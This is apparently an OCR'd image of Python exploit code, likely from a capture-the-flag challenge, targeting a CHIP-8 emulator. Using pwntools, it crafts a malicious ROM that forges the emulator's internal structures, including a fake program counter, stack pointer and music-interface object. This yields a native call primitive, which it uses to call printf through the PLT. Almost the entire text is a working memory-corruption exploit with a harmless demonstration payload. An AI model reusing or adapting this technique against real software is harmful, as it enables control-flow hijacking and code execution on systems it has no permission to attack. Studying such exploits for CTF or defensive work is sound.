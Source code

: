 ```py
            self.store_vx(0)

    def native_call_primitive(self, address: int):
        self.write_qword_le(PLAY_CHIP_ADDR, address)
        self.load_vx_imm(0, 1)
        self.set_sound(0)
        while self.instructions != 0:
            self.nop()

    def assemble(self):
        return self.code

def exploit():
    pwn.info(f"Placing fake music interface object at address {hex(INTERFACE_ADDR)} (chip8 addr {hex(INTERFACE_ADDR - CHIP_ADDR)})")
    pwn.info(f"Execution starts at pc = {hex(((FAKE_MUSIC_ADDR & 0xffff) - 2) & 0xfff)}")

    asm = Asm()

    _start = asm.label()
    asm.load_vx_imm(0, 0x22)
    asm.load_vx_imm(1, 0x22)
    asm.set_index(0x40-2)
    asm.store_vx(1)
    asm.jump(0x40-2)

    asm.seek_pc(0x222)
    # at this point the machine is 'booted': profit

    asm.write_bytes(0x0, b"hello from the chip8!\n\0")
    asm.native_call_primitive(PRINTF_PLT)

    # more booting code
    asm.seek_pc(((FAKE_MUSIC_ADDR & 0xffff) - 2) & 0xfff)
    asm.call(_start)

    code = asm.assemble()

    forged_chip_struct = pad(code, PC_OFFSET, padding=b"\x00")
    forged_chip_struct += pwn.p16((FAKE_MUSIC_ADDR & 0xffff) - 2) # forged pc
    forged_chip_struct += b"\x00" * (SP_OFFSET - PC_OFFSET - 2)
    forged_chip_struct += pwn.p8(SP_VALUE) # forged sp
    forged_chip_struct = pad(forged_chip_struct, CHIP_STRUCT_SIZE - ROM_START_OFFSET, padding=b"\x00")


    # interface
    forged_music_struct = pwn.p64(INTERFACE_ADDR) # put the interface into chip8's memory
    # context
    forged_music_struct += pwn.p64(CHIP_ADDR) # point context into the start of chip8's memory
    # just pad the rest of the values with zeros
    forged_music_struct = pad(forged_music_struct, 1056, padding=b"\x00")

    forged_music_interface_struct = b"\x00" * 72
    forged_music_interface_struct += pwn.p64(0x0000000000401016)
    forged_music_interface_struct = pad(forged_music_interface_struct, 224, padding=b"\x00")

    rom = forged_chip_struct
    rom += b"\x00" * (FAKE_MUSIC_ADDR - (CHIP_ADDR + ROM_START_OFFSET + len(forged_chip_struct)))
    rom += forged_music_struct

    with open("exploit", "wb") as f:
        f.write(rom)
```